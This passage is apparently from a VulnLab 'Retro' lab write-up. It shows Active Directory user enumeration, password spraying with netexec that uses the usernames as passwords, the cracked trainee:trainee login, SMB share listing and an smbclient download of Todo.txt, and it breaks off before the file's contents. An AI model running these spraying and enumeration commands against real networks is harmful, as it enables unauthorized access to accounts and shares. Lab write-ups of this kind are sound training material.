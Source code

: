We got a couple of users:

```
1000: RETRO\DC$ (SidTypeUser)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1109: RETRO\tblack (SidTypeUser)
```

I've stripped the users and added them to users.txt with the addition of 'administrator'. Since I knew that there would be weak credentials, I tried with the following pattern `user:pass`.

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u ./users.txt -p ./users.txt 
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [+] retro.vl\trainee:trainee
```

And I've got a hit for the user `trainee`. Now let's try to get the SMB shares once again with that user.

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u trainee -p trainee --shares
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [+] retro.vl\trainee:trainee 
SMB         10.10.64.243    445    DC               [*] Enumerated shares
SMB         10.10.64.243    445    DC               Share           Permissions     Remark
SMB         10.10.64.243    445    DC               -----           -----------     ------
SMB         10.10.64.243    445    DC               ADMIN$                          Remote Admin
SMB         10.10.64.243    445    DC               C$                              Default share
SMB         10.10.64.243    445    DC               IPC$            READ            Remote IPC
SMB         10.10.64.243    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.64.243    445    DC               Notes           READ            
SMB         10.10.64.243    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.64.243    445    DC               Trainees        READ  
syl@sylsec:~/vulnlab/Retro$ smbclient //retro.vl/Notes -U 'trainee'                                   
Password for [WORKGROUP\trainee]: trainee
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jul 24 01:03:16 2023
  ..                                DHS        0  Wed Jul 26 12:54:14 2023
  ToDo.txt                            A      248  Mon Jul 24 01:05:56 2023

                6261499 blocks of size 4096. 2179053 blocks available
smb: \> get Todo.txt
getting file \Todo.txt of size 248 as Todo.txt (1,5 KiloBytes/sec) (average 1,5 KiloBytes/sec)
```

I got a file `Todo.txt` lets take a look:
